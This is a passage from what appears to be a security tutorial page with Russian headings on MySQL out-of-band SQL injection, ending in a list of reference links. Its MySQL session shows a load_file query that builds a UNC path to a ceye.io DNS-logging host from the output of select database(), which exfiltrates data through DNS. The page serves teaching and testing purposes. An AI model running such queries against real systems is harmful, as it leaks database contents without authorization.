 ```sql
mysql
> use security;
Database
changed
mysql>
select load_file('\\\\test.xxx.ceye.io\\abc');
+-------------------------------------------+
| load_file('\\\\test.xxx.ceye.io\\abc') |
+-------------------------------------------+
| NULL                                      |
+-------------------------------------------+
1 row in set (22.05 sec)
mysql>
select load_file(concat('\\\\', (select database()), '.xxx.ceye.io\\abc'));
+----------------------------------------------------------------------+
| load_file(concat('\\\\',(select database()),'.xxx.ceye.io\\abc')) |
+----------------------------------------------------------------------+
| NULL                                                                 |
+----------------------------------------------------------------------+
1 row in set (0.00 sec)
```

![sqli1](../assets/img/web/sqli1.png)

## Рекомендации

- [Памятка по внедрению SQL](<http://drops.xmd5.com/static/drops/tips-7840.html>)
- [Советы по внедрению MySQL](<http://drops.xmd5.com/static/drops/tips-7299.html>)
- [MySQL Injection Science](<http://drops.xmd5.com/static/drops/tips-123.html>)
- [Сводка по внедрению MySQL](<http://www.91ri.org/4073.html>)
- [Атака с использованием SQL-инъекций и защита](<http://product.dangdang.com/23364650.html>)